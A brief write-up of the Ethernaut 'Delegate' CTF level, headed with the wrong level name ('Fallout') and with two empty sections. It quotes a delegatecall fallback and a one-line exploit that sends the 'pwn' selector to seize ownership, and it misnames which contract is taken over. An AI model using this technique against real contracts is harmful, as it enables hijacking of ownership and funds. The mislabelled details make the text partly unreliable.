

<div align="center">


<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Level 6 - Delegate](#level-6---delegate)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif



## The hack

## Level 6 - Delegate

Requires taking advantage of the delegate call being used in the Delegation contract

## Solution

This is the fallback function in the Delegation contract

```
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
```

`delegate` is the contract we need to take control of,
Hence here we do

```
contract.sendTransaction({data: web3.utils.keccak256("pwn")})
```

Thus calling the `Delegation` contract's fallback which delegates to the `Delegate` contract, calling its `pwn` function, making us the owner.

## Takeaway

Usage of delegate call(libs and proxies) and its importance to get right - parity hack explored the incorrect use of delegate call

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
